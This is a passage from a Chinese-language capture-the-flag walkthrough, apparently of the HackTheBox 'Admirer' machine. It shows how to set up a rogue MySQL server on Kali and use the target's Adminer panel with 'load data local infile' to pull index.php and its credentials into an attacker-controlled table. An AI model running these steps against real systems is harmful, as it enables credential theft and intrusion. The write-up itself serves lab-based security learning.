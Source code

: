 可见，我们可以在kali本地假设数据库，然后用网站远程登录kali数据库，利用漏洞读取各种配置文件，或者读取index.php文件中最新的凭证继续尝试ssh密码复用。

首先在kali本地启动mysql服务

```bash
sudo service mysql start
```

使用root凭证登录mysql

```bash
sudo mysql -h localhost -u root -p
```

![image-20200625105634606]({{ site.url }}/assets/Admirer_187.assets/image-20200625105634606.png)

```bash
CREATE DATABASE admirer;    #新建adminer对应数据库
CREATE USER 'evil'@'%' IDENTIFIED BY 'x';    #新建可以远程登录的用户evil
GRANT ALL PRIVILEGES ON * . * TO 'evil'@'%';
FLUSH PRIVILEGES;    #刷新权限
USE admirer;    #选择之前创建的数据库
CREATE TABLE evil(data VARCHAR(255));    #新建新表evil
EXIT;    #退出
```

编辑mysql配置文件，用来允许远程链接

```bash
sudo vim /etc/mysql/mariadb.conf.d/50-server.cnf
```

![image-20200625111832964]({{ site.url }}/assets/Admirer_187.assets/image-20200625111832964.png)

重启mysql服务

```bash
sudo service mysql restart
```

用户evil，密码x，数据库admirer，尝试登录

![image-20200625121542890]({{ site.url }}/assets/Admirer_187.assets/image-20200625121542890.png)

成功，点击SQL command

![image-20200625121804674]({{ site.url }}/assets/Admirer_187.assets/image-20200625121804674.png)

按照漏洞利用的方法尝试读取其他位置的文件都无法完成，只能读取网页服务文件夹下的内容，按照之前的想法，读取index.php，查看用户更新后的数据库凭证

```bash
load data local infile '../index.php'        #因为index.ph在当前页面的上一层，所以要加../
into table evil
fields terminated by "/n"
```

![image-20200625123602431]({{ site.url }}/assets/Admirer_187.assets/image-20200625123602431.png)

执行成功，点击左侧操作面板的select，查看存入表单的信息
